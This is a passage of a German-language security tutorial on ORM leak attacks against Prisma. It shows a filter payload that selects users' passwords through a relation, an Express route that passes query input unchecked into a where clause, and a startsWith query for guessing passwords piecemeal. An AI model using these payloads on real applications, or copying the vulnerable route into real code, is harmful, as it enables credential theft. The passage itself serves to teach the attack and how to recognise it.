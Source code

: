 ```json
"filter": {
"select": {
"createdBy": {
"select": {
"password": true
}
}
}
}
}

// Response
[
{
"createdBy": {
"password": "super secret passphrase"
}
},
...
]
```
* **Vollständige Kontrolle über die where-Klausel**:

Lassen Sie uns einen Blick darauf werfen, wo der Angriff die `where`-Klausel steuern kann:

<pre class="language-javascript"><code class="lang-javascript">app.get('/articles', async (req, res) => {
try {
const posts = await prisma.article.findMany({
<strong>            where: req.query.filter as any // Anfällig für ORM-Leaks
</strong>        })
res.json(posts);
} catch (error) {
res.json([]);
}
});
</code></pre>

Es ist möglich, das Passwort der Benutzer direkt zu filtern wie:
```javascript
await prisma.article.findMany({
where: {
createdBy: {
password: {
startsWith: "pas"
}
}
}
})
```
{% hint style="danger" %}
Durch die Verwendung von Operationen wie `startsWith` ist es möglich, Informationen zu leaken.&#x20;
{% endhint %}
